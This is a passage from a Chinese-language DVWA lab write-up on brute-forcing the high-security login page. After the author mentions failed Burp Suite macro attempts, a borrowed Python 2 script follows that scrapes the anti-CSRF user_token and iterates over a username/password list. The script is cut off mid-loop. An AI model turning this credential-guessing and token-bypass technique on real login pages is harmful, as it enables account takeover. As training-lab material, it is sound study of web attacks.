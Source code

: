 但是如果非要暴力破解也行。两个方法：自己写脚本 or burpsuite更高级的用法。

### Burpsuite 会话宏设置

折腾了将近一个小时后放弃。简单地设置一个全局作用的宏来控制user_token，但是就是不太会。网上搜教程设置好了但是没法用，还是太菜。

埋个坑，等burpsuite水平够了再回来写这个。毕竟目前网上还没有好的针对dvwa的high难度的暴力破解的burpsuite解法。

两个参考：

[burpsuite设置宏绕过csrf token](http://www.51testing.com/html/54/15080554-3646778.html)

[如何绕过csrf保护，并在burp suite中使用intruder？](https://zhuanlan.zhihu.com/p/33489179)

### python脚本

时间关系直接贴别人的代码了。。。

```Python
__author__ = 'feifei'
# ! /use/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup
import sys
import re

get_user_token = re.compile(r'(?<=value=").*?(?=")')


def get_token(url):
    reload(sys)  # 2
    sys.setdefaultencoding('utf-8')
    header = {
        'Host': '192.168.197.136',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'zh-CN,zh;q=0.8',
        'Connection': 'keep-alive',
        'Cookie': 'security=high; JSESSIONID.dbedba29=wiegi8devpzuxgg53uxp5af; PHPSESSID=e50s9n954ngo5rpd2fglcc38k7',
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/43.0.235'
    }
    rep = requests.get(url, headers=header)
    rep.encoding = 'utf-8'
    soup = BeautifulSoup(rep.text, "lxml")
    print len(rep.text)
    input_list = soup.find('input', type="hidden")
    user_token = get_user_token.search(str(input_list)).group()
    return user_token


if __name__ == '__main__':
    user_token = get_token("http://192.168.197.136/dvwa/vulnerabilities/brute/")
    with open('passwd.txt') as f:
        i = 0
        for item in f.readlines():
            pos = item.rfind(",")
            username = item[:pos]
            password = item[pos + 1:]
            requrl = "http://192.168.197.136/dvwa/vulnerabilities/brute/" + "?username=" + username.strip() + \
                     "&password=" + password.strip() + "&Login=Login&user_token=" + user_token
            i += 1
            print i, username.strip(), password.strip(),
```